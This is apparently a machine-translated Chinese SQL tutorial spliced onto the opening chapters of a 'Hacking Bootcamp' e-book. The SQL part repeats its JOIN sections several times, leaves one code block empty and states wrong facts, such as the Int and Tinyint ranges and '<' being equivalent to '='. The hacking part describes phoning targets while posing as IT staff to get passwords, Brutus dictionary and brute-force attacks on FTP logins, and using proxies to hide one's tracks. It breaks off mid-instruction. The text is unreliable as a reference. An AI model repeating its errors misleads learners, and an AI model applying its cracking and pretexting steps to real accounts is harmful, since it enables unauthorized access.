- Primary Key（主键） – 这是一个标识表内每个记录的字段。在创建主键时，你可以使用单个字段或组合多个字段。涉及多个字段的键被称为“复合键”。主键必须持有唯一值（即它们不接受重复或 NULL 值）。

- 如何在创建新表时分配主键 - 在你的新表中定义主键时，使用以下语法：

```
CREATE TABLE CUSTOMERS (
  ID INT NOT NULL,
  NAME VARCHAR (20) NOT NULL,
  AGE INT NOT NULL,
  ADDRESS CHAR (25),
  SALARY DECIMAL (10, 2),
  PRIMARY KEY (ID)
);
```

- 如何为现有表分配主键 – 这里是你应该使用的语法：

```
ALTER TABLE (在此处插入表名) ADD PRIMARY KEY (在此处指定列名);
```

重要说明：如果你将将某列指定为主键，你必须确保它不会接受 NULL 值。

- 如何删除主键 - 要禁用主键，可以使用以下语法：

```
ALTER TABLE (表名) DROP PRIMARY KEY;
```

- Foreign Key（外键）– 你应该使用此约束来快速生成或检索数据。在创建索引时，你可以选择单列或一组列。连接到另一个表。

为了帮助你理解这一概念，让我们使用`CUSTOMERS`两个表：

```
CREATE TABLE CUSTOMERS(
  ID INT NOT NULL,
  NAME VARCHAR(20) NOT NULL,
  AGE INT NOT NULL,
  ADDRESS CHAR (25) ,
  SALARY DECIMAL (18, 2),
  PRIMARY KEY (ID)
);
```

`ORDERS`表：

```
CREATE TABLE ORDERS (
  ID INT NOT NULL,
  DATE        DATETIME,
  AMOUNT      double,
  CUSTOMER_ID INT,
  FOREIGN KEY (CUSTOMER_ID) REFERENCES CUSTOMERS(ID)
);
```

`HAVING`子句 – `HAVING (算术函数条件);`

## CREATE TABLE 命令

```
CREATE TABLE table_name (
column1 datatype,
column2 datatype,
column3 datatype,
...
columnN datatype,
PRIMARY KEY (one or more columns)
);
```

## DROP TABLE 命令

```
DROP TABLE table_name;
```

## CREATE INDEX 命令

```
CREATE UNIQUE INDEX index_name
ON table_name (column1, column2...columnN);
```

## DROP INDEX 命令

```
ALTER TABLE table_name
DROP INDEX index_name;
```

## DESC 命令

```
DESC table_name;
```

## TRUNCATE TABLE 命令

```
TRUNCATE TABLE table_name;
```

## ALTER TABLE 命令

```
ALTER TABLE table_name (ADD|DROP|MODIFY) column_name (datatype);
```

## ALTER TABLE 命令（用于重命名表）

```
ALTER TABLE table_name RENAME TO new_table_name;
```

## INSERT INTO 命令

```
INSERT INTO table_name(column1, column2...columnN)
VALUES (value1, value2....valueN);
```

## UPDATE 命令

```
UPDATE table_name
SET column1 = value1, column2 = value2...columnN=valueN
{ WHERE CONDITION };
```

## DELETE 命令

```
DELETE FROM table_name
WHERE {CONDITION};
```

## CREATE DATABASE 命令

```
CREATE DATABASE database_name;
```

## DROP DATABASE 命令

```
DROP DATABASE database_name;
```

## USE 命令

```
USE DATABASE database_name;
```

## COMMIT 命令

```
COMMIT;
```

## ROLLBACK 命令

```
ROLLBACK;
```

## 第 4 章：SQL 中不同的数据类型

在 SQL 语言中，数据类型是决定任何数据库对象类型的特征。SQL 中所有的列、变量和表达式都涉及数据类型。

在生成新表时，你应该指明数据类型。此外，你必须根据需求为表选择数据类型。

这种计算机语言支持许多类型的数据。让我们将这些类型分为六大类：

- 1. 精确数值

| 数据类型 | 起始 | 结束 |
|---|---|---|
| Bigint | -9,223,372,036,854,775,808 | 9,223,372,036,854,775,807 |
| Int | -2,147,483,648 | 2,147,483,648 |
| Smallint | -32,768 | 32,768 |
| Tinyint | 0 | 1 |
| Bit | 0 | 0 |
| Decimal | -10*38 +1 | 10*38 -1 |
| Numeric | -10*38 +1 | 10*38 -1 |
| Money | -922,337,203,685,477,588 | +922,337,203,685,477,580 |
| Smallmoney | -214,748,3647 | +214,748,3647 |

- 2. 近似数值

| 数据类型 | 起始 | 结束 |
|---|---|---|
| Float | -1.79E + 308 | 1.79E + 308 |
| Real | -3.40E + 38 | 3.40E + 38 |

## 3. 时间和日期

| 数据类型 | 起始 | 结束 |
|---|---|---|
| Datetime | 1753年1月1日 | 9999年12月31日 |
| Smalldatetime | 1900年1月1日 | 2079年6月6日 |
| Date | 存储如 1991年6月30日 的日期 | | |
| Time | 存储如 12:30 P.M. 的每天时间 | | |

## 4. 字符字符串 – 这分为两个子类：

- 1. Unicode 字符串

| 数据类型 | 说明 |
|---|---|
| Nchar | 最大长度为 4,000 个字符。（固定长度 Unicode） |
| Nvarchar | 最大长度为 4,000 个字符。（可变长度 Unicode） |
| nvarchar(max) | 最大长度为 231 个字符（仅限 SQL Server 2005）（可变长度 Unicode） |
| Ntext | 最大长度为 1,073,741,823 个字符。（可变长度 Unicode） |

- 2. 非 Unicode 字符串

| 数据类型 | 起始 | 结束 |
|---|---|---|
| Char | Char | 最大长度 8,000 个字符。（固定长度非 Unicode 字符） |
| Varchar | Varchar | 最多 8,000 个字符。（可变长度非 Unicode 数据）。 |
| varchar(max) | varchar(max) | 最大长度 231 个字符，可变长度非 Unicode 数据（仅限 SQL Server 2005）。 |
| Text | text | 可变长度非 Unicode 数据，最大长度为 2,147,483,647 个字符。 |

## 5. 二进制

| 数据类型 | 说明 |
|---|---|
| Binary | 最大长度 8,000 字节。（固定长度二进制） |
| Varbinary | Varbinary | 最多 8,000 个字节。 |
| varbinary(max) | 最大长度 231 个字节（仅限 SQL Server 2005）。 |
| Image | 最大长度为 2,147,483,647 个字节。 |

## 6. 杂项

该类别包含以下数据类型：

- `timestamp` – 此类型存储更新的时间。

- `xml` – 此类型存储 XML（可扩展标记语言）。

- `table` – 此类型可以引用表。

- `cursor` – 此类型可以引用游标对象。

- `sql_variant` – 此类型存储 SQL 兼容的数据类型。

- `unique identifier` – 此类型存储 GUID（全局唯一标识符）。

## 第 5 章：SQL 中的运算符

运算符是你可以用于 SQL 命令的保留字或字符。通常，运算符用于命令的`WHERE`子句以执行操作（比较、数学运算等）。

本章将讨论 SQL 支持的四种运算符：

- 逻辑运算符
- 算术运算符
- 比较运算符
- 用于消除条件的运算符

你可以使用运算符在命令中指定条件。

## 逻辑运算符

这些是可以在 SQL 中使用的逻辑运算符：

- `IN` –
- `OR`
- `AND`
- `ANY`
- `LIKE`
- `EXISTS`
- `BETWEEN`
-
- `IS NULL`

## 算术运算符

为了帮助你理解这些运算符，让我们使用示例变量：`x = 1; y = 2`。

- `+`
- `-`
- `*`
- `/`

## 比较运算符

假设`x = 2 y = 4`。

- `=` – 检查两个值的相等性。如果值相等，则条件为真。例如：`(x = y)`为假。

- `!=` – 检查两个值的相等性。如果值不相等，则条件为真。例如：`(y != x)`为真。

- `<` – 相当于`=`。例如：`(x < y)`为真。

- `>` – 检查左操作数的值是否大于右操作数的值。如果是，则条件为真。例如：`(y > x)`为真。

- `<` – 检查左操作数的值是否小于右操作数的值。如果是，则条件为真。例如：`(x < y)`为真。

- `>=` – 检查左操作数的值是否大于或等于右操作数的值。如果是，则条件为真。例如：`(y >= x)`为真。

- `<=` – 检查左操作数的值是否小于或等于右操作数的值。如果是，则条件为真。例如：`(x <= y)`为真。

## 用于消除条件的运算符

- `NOT` – 此运算符可以反转你与其配合使用的逻辑运算符的功能。例如：`NOT IN`、`NOT EXISTS`、`NOT BETWEEN`等。

## 第6 章：SQL 表达式

基本上，表达式是一组值、函数和运算符的组合。SQL 表达式可以帮助你评估数据库值。

在这一计算机语言中，表达式是你必须使用查询语言编写的一个公式。你也可以使用表达式来针对某些信息运行数据库查询。

## 语法

以下是`SELECT`命令的格式：

```
SELECT column1, column2, columnN
FROM table name
WHERE (CONDITION:EXPRESSION);
```

现在，让我们来谈谈 SQL 支持的表达式：

布尔表达式 – 这些表达式通过匹配单个值来检索数据。以下是布尔表达式的基本语法：

```
SELECT column1, column2, columnN
FROM table name
WHERE SINGLE VALUE MATCHTING EXPRESSION;
```

数值表达式 – 你可以使用这些表达式在数据库查询中进行数学运算。以下是你应该使用的语法：

```
SELECT numerical expression as OPERATION NAME
[FROM table_name]
WHERE CONDITION ;
```

日期日期表达式 – 这里的表达式可以为你提供系统的时间和日期信息。

## 第 7 章：如何在你的数据库中使用 SQL

本章将教你如何在你自己的数据库上应用 SQL 命令。通过阅读这些材料，你将能够使用 SQL 计算机语言与关系型数据库交互。这些材料极其重要，因为它将帮助你仅需 2 周就能掌握 SQL 的基础。

## 如何创建数据库

要创建一个新数据库，你应该使用`CREATE DATABASE`命令。以下是你应该遵循的语法：

```
CREATE DATABASE DatabaseName;
```

注意：关系型数据库管理系统需要唯一的数据库名称。

让我们使用`CREATE DATABASE`命令生成一个新数据库。

```
CREATE DATABASE sample;
```


上述命令创建了一个名为“sample”的新数据库。

注意：如果你没有管理员权限，将无法创建新数据库。

## 如何删除数据库

在 SQL 语言中，你使用 `DROP DATABASE` 命令来删除活跃的数据库。请使用以下语法：

```
DROP DATABASE (insert the name of your database);
```

例如，假设你想删除一个名为“sample”的数据库。这是你需要使用的 SQL 命令：

```
DROP DATABASE sample;
```

注意：在使用此命令时你必须格外小心。请记住，删除数据库会导致数据的永久丢失。

## 如何选择数据库

如果你拥有多个数据库，你必须确保在正确的数据库上执行所需的操作。你应该利用 `USE` 命令来选择一个现有数据库。分析以下语法：

```
USE (insert name of the database here)
```

例如，要选择名为“sample”的数据库，请使用以下 SQL 命令：

```
USE sample
```

## 如何创建表

如果你正在创建一个新表，你应该为该表命名并定义它的列和支持的数据类型。你应该使用 `CREATE TABLE` 命令来完成此任务。以下是你应该遵循的语法：

```
CREATE TABLE table name (
column1 datatype,
column2 datatype,
column3 datatype,
...
columnN datatype,
PRIMARY KEY(one or more columns)
);
```

基本上，“`CREATE TABLE`” 是一个关键字，用于告知系统你想创建一个新表的意图。表的标识符或名称紧随 `CREATE TABLE` 命令之后。

然后，创建一个列表来定义你想使用的列和数据类型。如果这有点困惑，不要担心。一旦你分析了给出的示例，就会理解它。

## 如何从现有表创建新表

你可以通过结合两个命令：`SELECT` 和 `CREATE TABLE` 来复制现有表。

默认情况下，你得到的表将具有旧表的列定义。然而，你可能从旧表中选择某些列并丢弃其他。这意味着你可以根据需要修改新表。

如果你成功执行了该命令，新表将获得旧表的当前值。以下是你应该使用的语法：

```
CREATE TABLE NEW TABLE NAME AS
SELECT [column1, column2..columnN]
FROM EXISTING TABLE NAME
[ WHERE ]
```

例如，你想要使用一个名为 `EMPLOYEES` 的表来生成一个新表（假设你想将其命名为“COMPENSATION”）。然后，你想复制 `EMPLOYEES` 表中的两个列：`NAME` 和 `SALARY`。为了完成这项任务，你可以使用以下 SQL 代码：

```
CREATE TABLE COMPENSATION AS
SELECT NAME, SALARY
FROM EMPLOYEES;
```

上述代码创建了一个名为 `COMPENSATION` 的新表，该表包含两列：`NAME` 和 `SALARY`。此外，这些列将获得在旧表（即 `EMPLOYEES`）中找到的值。

## 如何删除表

你可以使用 `DROP TABLE` 命令来删除表及其包含的所有信息（例如：数据、约束、索引等）。

> 注意：在使用此命令时你必须小心。记住，这涉及存储信息的永久删除。如果你删错了表，你将面临数据库方面的严重问题。

此命令的语法是：

```
DROP TABLE (insert the table 's name here);
```

例如：`DROP TABLE sample`

上述命令从你的数据库中删除了一个名为“sample”的表。

## 如何添加新数据行

`INSERT INTO` 命令允许你向现有表中添加新数据行。此命令涉及两种语法：

### 第一种语法

```
INSERT INTO TABLE NAME (column1,column2,columnN)
VALUES value1,value2...,valueN;
```

### 第二种语法

```
INSERT INTO TABLE_NAME VALUES (value1,value2...,valueN);
```

## 如何从表中检索数据

你可以使用 `SELECT` 命令从表中检索数据。这些结果被称为“结果集”。

通常情况下，你可能使用 `WHERE` 子句来过滤记录。

```
SELECT column1, column2,columnN
FROM table name
WHERE [condition];
```

如果你需要从表中移除所有记录，你可能只需移除 `WHERE` 子句。

```
SELECT * FROM table_name;
```

## WHERE 子句

`WHERE` 是一个在检索信息时指定条件的 SQL 子句。通常情况下，你应该使用 `WHERE` 来过滤你需要的记录。你也可以在其他 SQL 命令中使用它。

```
SELECT column1,column2,columnN
FROM table name
WHERE condition;
```

## 如何组合各种条件

SQL 允许你在数据库查询中组合不同的条件。你只需要包含 `OR` 和 `AND` 运算符。用户将 `OR` 和 `AND` 称为逻辑运算符。

基本上，逻辑运算符允许你在单个 SQL 命令中执行多次比较。让我们先讨论 `OR`：

### OR

你可以使用此运算符在命令中组合各种条件。该运算符的语法为：

```
SELECT column1,column2,columnN
FROM table name
WHERE [condition1] OR [condition2]..OR [condition]
```

N 代表你可以使用 `OR` 组合的条件数量。只有当指定的条件为真时，你的 SQL 语句才会执行。

### AND

此运算符允许你在 `WHERE` 子句中放置多个条件。该运算符的语法为：

```
SELECT column1,column2,columnN
FROM table name
WHERE [condition1] AND [condition2]..AND [conditionN];
```

N 代表你可以使用 `AND` 组合的条件数量。请记住，只有当所有条件都真时，你的 SQL 命令才会执行。

## 如何修改现有记录

在 SQL 语言中，你可以使用 `UPDATE` 查询来编辑现有记录。此查询应用在 `WHERE` 子句上，允许你编辑数据行。以下是你应该使用的语法：

```
UPDATE table name
SET column = value1, column2 = value2..., columnN = valueN
WHERE [condition];
```

## 如何删除记录

如果你想删除记录，可以使用 SQL 的 `DELETE` 查询。你可以将此查询与 `SELECT` 结合来删除某些行。另一方面，你可以将 `DELETE` 作为独立查询使用来删除所有数据行。这是该查询的语法：

```
DELETE FROM the_table ’s name
WHERE [specify you condition/s];
```

```sql
DELETE FROM the_table WHERE s_name;
```

## 如何通过通配符运算符进行比较

在 SQL 中，你可以使用通配符运算符将一个值与相似的值进行比较。你只需要在 SQL 命令的 `LIKE` 子句中包含这些运算符即可。以下是你可以配合 `LIKE` 使用的通配符：

- 下划线（即 `"_ "`）
- 百分符号（即 `" % "`）

如果你想表示单个字符或数字，应该使用下划线。相反，如果你想表示 0、1 个或多个字符，则必须使用百分号。你可以在 SQL 语句中组合通配符运算符。

以下是通配符运算符的语法：

```sql
SELECT FROM table name
WHERE column LIKE 'XXXX%'

or

SELECT FROM table name
WHERE column LIKE '%XXXX%'

or

SELECT FROM table name
WHERE column LIKE 'XXXX '*

or

SELECT FROM table name
WHERE column LIKE ' XXXX'

or

SELECT FROM table name
WHERE column LIKE 'XXXX_ '
```

## 如何使用 TOP 子句

`TOP` 子句允许你从数据表中检索指定数量或百分比的数据。

重要提示：某些数据库不兼容此子句。例如，MySQL 使用 `LIMIT` 来检索记录。

带有 `TOP` 子句的 `SELECT` 命令语法为：

```sql
SELECT TOP number|percent column name(s)
FROM table name
WHERE [condition]
```

## 如何排序数据

SQL 提供了 `ORDER BY`，该子句可以根据你作为依据的列对数据进行降序或升序排序。正确的语法是：

```sql
SELECT column-list
FROM table name
[WHERE condition]
[ORDER BY column1, column2, ... columnN] [ASC | DESC];
```

你可以在此子句中包含多个列。但是，请确保你想要使用的所有列都在列-list 中。

## 如何合并多个 SELECT 命令的结果

在 SQL 中，你可以合并多个 `SELECT` 命令的结果，同时防止冗余行。你只需要使用 `UNION` 子句即可。

要使用此子句，你的 `SELECT` 语句必须具有相同数量的选择和列表达式。语句必须具有相同的数据类型和列排列。然而，语句的长度不需要完全相同。

该子句的语法为：

```sql
SELECT column1 [, column2 ]
FROM table1 [, table2 ]
[WHERE condition]
UNION
SELECT column1 [, column2 ]
FROM table1 [, table2 ]
[WHERE condition]
```

## 第 8 章：如何使用 SQL 合并记录

你可以使用 `JOIN` 子句从多个数据库中合并记录。基本上，`JOIN` 是一种可以合并不同表字段的方法。

### JOIN 的不同类型

SQL 计算机语言支持不同的 `JOIN`：

- SELF JOIN（自连接）——如果你在处理不同的表并想将表连接到自身，可以使用它。在执行此操作时，你应该在 SQL 命令中重命名至少一个表。
- RIGHT JOIN（右连接）——这种 JOIN 从右表中检索所有数据行。如果两个表之间不存在匹配项，SQL 将完成此任务。
- LEFT JOIN（左连接）——这种 JOIN 返回左表的所有数据行。即使涉及的表之间没有匹配项，SQL 语言也会完成此操作。
- FULL JOIN（全连接）——如果其中一个表有匹配项，该 JOIN 将检索数据行。
- INNER JOIN（内连接）——如果两个表都有匹配项，则返回数据行。
- CARTESIAN JOIN（笛卡尔连接）——这种 JOIN 从连接的表中检索记录集的笛卡尔值。

让我们详细讨论每种 `JOIN`：

### INNER JOIN

这是 SQL 中最重要的连接类型之一。它通过混合不同表的列值生成一个新表。数据库查询会检查所有表的行，以确定是否存在满足连接-谓词要求的行对。如果行对满足连接-谓词，则将这些行的值放置在一个新表中。你应该使用的语法如下：

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

### LEFT JOIN

这种 JOIN 从左表检索所有数据行，无论右表是否具有任何匹配项。因此，即使你命令的 `ON` 子句与右表有 0 个匹配，你仍然会从处理过程中获得数据行。但是，来自右表的列将包含 `NULL` 值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
LEFT JOIN table2
ON table1.common_field = table2.common_field;
```

### RIGHT JOIN

这种 JOIN 从右侧表检索所有数据行。即使左表没有任何匹配项，SQL 语言也会执行此操作。基本上，即使你命令的 `ON` 子句与左表没有匹配项，你仍然会从此过程中获得至少一个数据行。但是，来自左表的列将包含 `NULL` 值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
RIGHT JOIN table2
ON table1.common_field = table2.common_field;
```

### FULL JOIN

此 SQL JOIN 混合了左连接和右连接的结果。新表将包含两个表的所有记录。你应该使用的语法如下：

```sql
SELECT table1.column1, table2.column2...
FROM table1
FULL JOIN table2
ON table1.common_field = table2.common_field;
```

### SELF JOIN

如果你在处理不同的表并想将表连接到自身，可以使用它。在执行此操作时，你应该在 SQL 命令中重命名至少一个表。

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

### CARTESIAN JOIN

这种 JOIN 从连接的表中检索记录集的笛卡尔值。由于这种，连接-条件始终为真。这种 JOIN 的语法为：

```sql
SELECT a.column, b.column
FROM a, b
```

### FULL JOIN

此 SQL JOIN 混合了左连接和右连接的结果。新表将包含两个表的所有记录。你应该使用的语法如下：

```sql
SELECT table1.column1, table2.column2...
FROM table1
FULL JOIN table2
ON table1.common_field = table2.common_field;
```

### INNER JOIN

这是 SQL 中最重要的连接类型之一。它通过混合不同表的列值生成一个新表。数据库查询会检查所有表的行，以确定是否存在满足连接-谓词要求的行对。如果行对满足连接-谓词，则将这些行的值放置在一个新表中。你应该使用的语法如下：

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

### LEFT JOIN

这种 JOIN 从左表检索所有数据行，无论右表是否具有任何匹配项。因此，即使你命令的 `ON` 子句与右表有 0 个匹配，你仍然会从处理过程中获得数据行。但是，来自右表的列将包含 `NULL` 值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
LEFT JOIN table2
ON table1.common_field = table2.common_field;
```

### RIGHT JOIN

这种 JOIN 从右侧表检索所有数据行。即使左表没有任何匹配项，SQL 语言也会执行此操作。基本上，即使你命令的 `ON` 子句与左表没有匹配项，你仍然会从此过程中获得至少一个数据行。但是，来自左表的列将包含 `NULL` 值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
RIGHT JOIN table2
ON table1.common_field = table2.common_field;
```

### FULL JOIN

此 SQL JOIN 混合了左连接和右连接的结果。新表将包含两个表的所有记录。你应该使用的语法如下：

```sql
SELECT table1.column1, table2.column2...
FROM table1
FULL JOIN table2
ON table1.common_field = table2.common_field;
```

### SELF JOIN

如果你在处理不同的表并想将表连接到自身，可以使用它。在执行此操作时，你应该在 SQL 命令中重命名至少一个表。

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

### CARTESIAN JOIN

这种 JOIN 从连接的表中检索记录集的笛卡尔值。由于这种，连接-条件始终为真。这种 JOIN 的语法为：

```sql
SELECT a.column, b.column
FROM a, b
```

### FULL JOIN

此 SQL JOIN 混合了左连接和右连接的结果。新表将包含两个表的所有记录。你应该使用的语法如下：

```sql
```


# SQL JOIN 类型

## INNER JOIN

这是 SQL 中最重要的连接类型之一。它通过混合不同表的列值生成一个新表。数据库查询会检查所有表的行，以确定是否存在满足连接-谓词要求的行对。如果行对满足连接-谓词，则将这些行的值放置在一个新表中。你应该使用的语法如下：

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

## LEFT JOIN

这种 JOIN 从左表检索所有数据行，无论右表是否具有任何匹配项。因此，即使你命令的`ON`子句与右表有 0 个匹配，你仍然会从处理过程中获得数据行。但是，来自右表的列将包含`NULL`值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
LEFT JOIN table2
ON table1.common_field = table2.common_field;
```

## RIGHT JOIN

这种 JOIN 从右侧表检索所有数据行。即使左表没有任何匹配项，SQL 语言也会执行此操作。基本上，即使你命令的`ON`子句与左表没有匹配项，你仍然会从此过程中获得至少一个数据行。但是，来自左表的列将包含`NULL`值。

该连接的语法为：

```sql
SELECT table1.column, table2.column...
FROM table1
RIGHT JOIN table2
ON table1.common_field = table2.common_field;
```

## FULL JOIN

此 SQL JOIN 混合了左连接和右连接的结果。新表将包含两个表的所有记录。你应该使用的语法如下：

```sql
SELECT table1.column1, table2.column2...
FROM table1
FULL JOIN table2
ON table1.common_field = table2.common_field;
```

## SELF JOIN

如果你在处理不同的表并想将表连接到自身，可以使用它。在执行此操作时，你应该在 SQL 命令中重命名至少一个表。

```sql
SELECT table1.column, table2.column...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

## CARTESIAN JOIN

这种 JOIN 从连接的表中检索记录集的笛卡尔值。由于这种，连接-条件始终为真。这种 JOIN 的语法为：

```sql
SELECT a.column, b.column
FROM a, b
```

# Hacking Bootcamp

黑客训练营

## 学习计算机黑客基础

更多折扣书籍见 kindlebook.com

## 目录

引言

第 1 章：黑客——通用信息

第 2 章：编程技能

第 3 章：密码

第 5 章：渗透测试

结语

## 引言

感谢你并祝喜你。我希望这本书能够帮助你在两周内掌握黑客技巧。

## 第 1 章：黑客——通用信息

这本书可以帮助你成为一名出色的计算机黑客。通过这些材料，你：

- 像黑客一样思考——由于你了解黑客使用的方法和技术，你可以攻击网络或保护自己免受他人侵害。
- 学习“伦理黑客”——你不需要使用技能渗透网络或盗取数据。在 IT（即信息技术）世界中，你可以利用新技能帮助企业和组织防止黑客攻击；因此，你可以通过成为“好”黑客来赚钱。
- 给朋友家人留下印象——你可以向其他人展示你的黑客能力。这样，你可以建立自己作为技能程序员或计算机用户的声誉。

### 黑客——他们是谁？

黑客是喜欢玩计算机网络或电子系统的人。他们喜欢发现计算机的工作原理。根据计算机专的说法，黑客分为两大类：

- 白帽客——这些人被称为“好黑客”。白帽出于合法目的使用技能。通常，他们会成为安全专家，保护公司和组织免受黑帽客（见下文）。
- 黑帽客——这一类涉及出于/非法目的使用技能的黑客。这些黑客攻击网络、破坏网站并窃取机密信息。

重要提示：这些术语源于西方电影，电影中的主角戴白帽子，而反派戴黑帽子。

### 黑客的分层体系

在本书的途中，我们将根据技能水平对黑客进行分类。请仔细学习这些材料，因为它可以帮助你衡量自己的进度。

- 菜黑客（The Would-Be Hackers）—— 在这一类中，你会发现一些实际上并不知道自己在做什么的初。这些黑客通常计算机技能很差。他们使用他人创建的程序和攻击工具，却不知道它们是如何运作的。
- 中级黑客（The Intermediate Hackers）—— 这些黑客熟悉计算机、操作系统和编程语言。通常情况下，中级黑客了解计算机脚本的工作原理。然而，和菜黑客一样，中级黑客并不创建自己的工具。
- 精英黑客（The Elite Hackers）—— 这一类由经验丰富的黑客组成。通常，精英黑客会创建对于攻击或防御计算机网络非常有用的工具和程序。此外，精英黑客可以在不被发现的情况下访问系统。所有的黑客都想达到这一水平。

### 要求

你不可能一夜之间成为精英黑客。为了获得必要的技能，你必须耐心且坚韧。专注于你必须做的事情（例如：编写自己的程序、练习你的黑客技巧、读更多书籍等）。通过将时间和精力投入到能让你成为伟大黑客的事情上，你可以快速达到“精英”水平。

黑客专家声称创造力很重要，特别是对于初学者来说。有了创造力，你可以轻松地为同一个问题找到多个解决方案。你不需要担心资源或选择有限。如果你足够有创意，你一定能为难题找到出色的答案。

你还应该有学习更多的欲望。黑客涉及随着时间推移而演变的复杂过程。你应该愿意花费几个小时、几天甚至几周来研究网络结构和攻击策略。如果你没有时间或耐心进行这类细节工作，你成为专家黑客的机会微乎其微。

## 第 2 章：编程技能

要成为一名有效的黑客，你应该在编程方面拥有足够的技能。创建和操作计算机程序的能力将大有裨益。这种能力可以帮助你掩盖踪迹或混淆安全专家。然而，如果你想成为一名伦理黑客，可以使用你的技能创建防御性的计算机程序。

诚然，你可以在网上购买到现成的黑客工具。这意味着你可以在不编写任何代码的情况下执行攻击或防御你的网络。然而，依赖他人创建的程序不会帮助你成为伟大的黑客。任何人都可以购买并使用黑客程序——但创建一个程序需要技能和知识。

每当你对网络进行攻击、防御或测试时，你都应该理解与活动相关的一切内容。由于黑客攻击和系统测试涉及程序，编程技能可以帮助你在完成任务时获得有效性和准确性。

如果你知道如何编程，你将享受以下好处：

- 其他黑客会将你视为专家。
- 你可以专门为你的需求创建程序。例如，如果你需要停止某种病毒，你可以创建自己的安全程序来实现你的目标。你不需要去网上尝试各种通常很昂贵的防病毒软件。
- 你将对自己的技能更有信心。就像任何其他事业一样，如果一个人信任自己的技能，黑客工作将变得容易得多、简单得多。

简单来说，不要使用你不懂程序。如果你不知道它们是如何运作的，你可能会意外造成损害或被捕。

### 如何开始

要成为一名有效的黑客，你首先应该学习基础知识。在尝试攻击网络之前，理解网络是如何运作的非常重要。一旦你拥有了坚实的基础，就可以转向更高级的技术。

网上有很多可用资源，包括教程、书籍和论坛。然而，对你信任的来源要谨慎。从经验丰富的伦理黑客和导师那里寻求指导也非常有价值。

要开始你的旅程，你应该关注以下领域：

- 学习网络基础（`TCP/IP`, `DNS`, `HTTP` 等）。
- 学习一种编程语言（推荐 `Python`, `C`, `C++`）。
- 理解操作系统是如何运作的（`Linux`, `Windows`, `macOS`）。
- 学习安全原理和加密。
- 通过建立自己的安全、隔离环境（如虚拟机）来进行练习。

## 第 3 章：密码

如今，密码是网络唯一的保护。如果你拥有这条信息，你就能获得账户的访问权限。这就是黑客使用不同工具的原因。

### 密码破解——传统方法

以下列表向你展示了破解密码的传统技术：

- 猜测——这种方法对弱密码有效。例如，如果用户根据个人信息（如电话号码、出生日期、喜欢的动物等）创建密码，你可以通过尝试各种可能性来确定密码。
- 偷窥（Shoulder Surfing）——在这里，你会在目标输入密码时从其肩膀后面偷看。如果目标打字速度慢，这种方法可以给你结果。
- 社会工程学——在这种技术中，你将利用目标的信任来获取所需的信息。例如，你可以给目标打电话，假装成你属于公司的 IT 部门。你可以告诉目标你需要他的密码，以便访问他的账户并进行一些更新。

### 密码破解——现代技术

在本节中，你将学习破解密码的最新技术。

重要提示：本节使用了一些你需要安装的程序。

### 字典攻击

在这种方法中，你必须使用一个包含常用密码的文本文件。你将尝试每个密码以查看哪一个有效。这种方法简单方便。然而，你只能将其用于弱密码。为了帮助你理解这项技术，让我们分析以下示例：

一个黑客使用`Brutus`（一种流行的密码破解程序）访问`FTP`（文件传输协议）服务器。



1. 他指定了服务器类型（如`FTP`）和 IP 地址。
2. 他输入了一个有效的用户名。
3. 他选择了包含密码列表的文本文件。
4. 他点击“开始”按钮。`Brutus`程序将连接到`FTP`服务器，并尝试使用文本文件中的密码进行登录。如果过程成功，`Brutus`将在“正向验证结果”部分显示正确的密码。这里有一张截图：

| 正向验证结果 | | | | |
| --- | --- | --- | --- | --- |
| 目标 | 类型 | 用户名 | 密码 |
| `127.0.0.1` | `FTP` | `admin` | `password` |
| 已定位并安装了 1 个身份验证插件 | | | | |
| `127.0.0.1` | | | | |
| 已开启 20 个并发用户 | | | | |
| 已打开包含 88 个密码的密码列表 | | | | |
| 身份验证尝试位置减少到 4968 | | | | |
| 目标用户名：`admin` | | | | |
| 在`127.0.0.1`上使用用户`admin`的身份验证位置。密码：`password` (558 次尝试) | | | | |
| 最大总身份验证尝试次数减少到 6408 | | | | |

重要提示：顶尖黑客在用这类计算机程序时都会使用代理服务器。基本上，代理服务器通过从不同的计算机传输连接请求来隐藏你的 IP 地址。这很重要，因为多次登录尝试会产生大量的电子“足迹”。

### 暴力破解法

IT 专家声称，这种方法可以破解任何类型的密码。在这里，黑客尝试数字、字母和特殊符号的所有可能组合，直到进入目标账户。这种方法的主要缺点是耗时。这是可以理解的——为了访问目标账户，你必须尝试成千个可能的密码。

这种方法的速度取决于两个因素：

- 密码的复杂性
- 计算机的处理能力

上一个示例使用的黑客工具`Brutus`也可以对服务器发起暴力破解攻击。其工作原理如下：

1. 指定目标的 IP 地址和服务器类型。在“密码模式”部分选择“Brute破解”并点击“范围”。下方的图像将作为你的指南：

